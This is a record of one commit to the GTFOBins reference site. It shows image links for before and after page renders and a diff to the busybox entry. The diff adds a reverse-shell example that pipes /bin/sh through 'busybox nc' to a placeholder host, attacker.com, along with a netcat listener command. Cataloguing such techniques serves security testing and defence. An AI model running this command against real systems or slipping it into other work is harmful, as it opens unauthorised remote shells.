

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/busybox.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added reverse shell functionality to busybox if busybox nc is available

```diff
--- a/_gtfobins/busybox.md
+++ b/_gtfobins/busybox.md
@@ -21,4 +21,10 @@ functions:
       code: "./busybox sh"
   sudo:
     - code: sudo busybox sh
+  reverse-shell:
+    - description: Run `nc -lvp 4444` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=4444
+        busybox nc $RHOST $RPORT -e /bin/sh
 ---
```
